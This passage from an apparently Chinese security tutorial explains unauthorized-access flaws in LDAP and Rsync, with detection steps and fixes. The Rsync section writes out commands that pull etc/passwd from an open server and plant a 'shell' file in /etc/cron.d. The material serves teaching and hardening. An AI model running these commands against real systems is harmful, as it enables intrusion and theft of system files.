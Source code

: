**漏洞简介**

LDAP中文全称为：轻型目录访问协议（Lightweight Directory Access Protocol），默认使用389， LDAP 底层一般使用 TCP 或 UDP 作为传输协议。目录服务是一个特殊的数据库，是一种以树状结构的目录数据库为基础。未对LDAP的访问进行密码验证，导致未授权访问。

**漏洞检测**

1、端口扫描

2、使用nmap寻找到相关的LDAP服务器，可以使用ldapbrowser工具（下载：https://ldapbrowserwindows.com/）直接连接，获取目录内容。

**![](https://qqq.gtimg.cn/music/photo_new/T053XD000020Clc746fxuq.jpg)**

**漏洞修复**

-   修改ldap的acl，禁止匿名访问。
-   根据业务设置ldap访问白名单或黑名单；

## 3. Rsync 未授权访问（873）

**漏洞简介**

rsync是Linux/Unix下的一个远程数据同步工具，可通过LAN/WAN快速同步多台主机间的文件和目录，默认运行在873端口。由于配置不当，导致任何人可未授权访问rsync，上传本地文件，下载服务器文件。

**漏洞检测**

1、端口扫描

2、root@kali使用Rsync命令即可进行检测。

`rsync rsync://192.168.126.130:873/`

`rsync rsync://192.168.126.130:873/src`

利用rsync下载任意文件

`rsync rsync://192.168.126.130:873/src/`

![](https://qqq.gtimg.cn/music/photo_new/T053XD00002O3hrz3kSfcY.jpg)  

`etc/passwd ./`

![](https://qqq.gtimg.cn/music/photo_new/T053XD00002kInIN3cjPLD.jpg)

或者写入任意文件

`rsync -av shell rsync://192.168.126.130:873/src/etc/cron.d/shell`

![](https://qqq.gtimg.cn/music/photo_new/T053XD000039yLW20bYMvW.jpg)

**漏洞修复**

-   隐藏掉 module 信息：修改配置文件 list =false。
-   权限控制：不需要写入权限的 module 的设置为只读 Read only = true;
-   网络访问控制：使用安全组策略或白名单限制，只允许必要访问的主机访问;
-   账户认证：只允许指定的用户利用指定的密码使用 rsync 服务;
-   数据加密传输：Rsync 默认没有直接支持加密传输，如果需要 Rsync 同步重要性很高的数据，可以使用 ssh;
-   参考文章：https://www.freebuf.com/column/202771.html
